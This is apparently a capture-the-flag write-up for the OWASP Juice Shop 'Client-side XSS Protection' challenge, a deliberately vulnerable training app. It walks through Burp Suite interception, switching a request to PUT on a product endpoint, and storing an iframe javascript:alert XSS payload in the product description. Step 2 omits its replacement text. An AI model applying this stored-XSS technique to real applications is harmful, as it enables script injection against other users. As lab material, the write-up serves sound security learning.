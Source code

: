 #  Client-side XSS Protection — OWASP Juice Shop

##  Challenge Summary
This challenge demonstrates how client-side Cross-Site Scripting (XSS) vulnerabilities can occur when user-controlled input is not properly sanitized before being displayed on a web page.

---

##  Solution Steps

1. **Login to OWASP Juice Shop**  
   Open **Burp Suite** and turn on **Intercept**.  
   Continue clicking **Forward** until you see the following request:
GET /api/Challenges/?name=Score%20Board HTTP/1.1

2. **Modify the request path**  
Remove the part:
?name=Score%20Board
Replace it with:
This retrieves all product details.

3. **Access a specific product**  
Use a product ID to fetch details. Example:
GET /api/Products/6 HTTP/1.1
In this case, product ID `6` corresponds to **Banana Juice**.

4. **Copy and modify the response**  
From the **response**, copy the `description` field content and use it in your **request** body.  
Remove all other keys like `status`, `data`, `id`, `price`, etc., keeping only the description field:  
```json
{"description": "Monkey loves it the most"}

5. **Inject a payload (for testing XSS)**
Replace the description value with:
{"description": "<iframe src=\"javascript:alert(`xss`)\"> "}

6. **Change the request method**
Replace GET with PUT:
PUT /api/Products/6 HTTP/1.1

7. **Add a Content-Type header**
Insert the following header between Accept-Language and Accept-Encoding:
Content-Type: application/json

8. **Send the request**
Click Send.
The response should now show:
{"description": "<iframe src=\"javascript:alert(`xss`)\"> "}
If the change reflects in the product description, the Client-side XSS challenge is solved!